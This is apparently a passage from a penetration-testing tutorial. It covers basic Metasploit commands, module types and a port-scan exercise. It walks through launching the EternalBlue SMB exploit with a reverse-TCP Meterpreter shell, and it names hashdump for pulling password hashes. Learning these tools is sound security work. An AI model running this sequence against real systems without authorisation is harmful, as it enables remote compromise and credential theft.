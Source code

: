 **Basic Metasploit commands:**

```bash
# Search for exploits
search windows smb

# Search for specific service
search apache

# Use an exploit
use exploit/windows/smb/ms17_010_eternalblue

# Show exploit information
info

# Show required options
show options

# Set target
set RHOSTS target_ip

# Set payload
set PAYLOAD windows/meterpreter/reverse_tcp

# Set your IP (where connection comes back)
set LHOST your_kali_ip

# Run the exploit
exploit

# Or check if target is vulnerable without exploiting
check
```

**Metasploit modules:**

```bash
# Exploits: Code to take advantage of vulnerabilities
use exploit/path/to/exploit

# Payloads: Code that runs after successful exploit
set PAYLOAD windows/meterpreter/reverse_tcp

# Auxiliary: Scanners, fuzzers, etc.
use auxiliary/scanner/portscan/tcp

# Post: Post-exploitation modules
use post/windows/gather/hashdump
```

**Exercise: Port Scanning with Metasploit**

```bash
# Use TCP port scanner
use auxiliary/scanner/portscan/tcp

# Set target
set RHOSTS target_ip

# Set port range
set PORTS 1-1000

# Run scan
run

# Or exploit syntax
exploit
```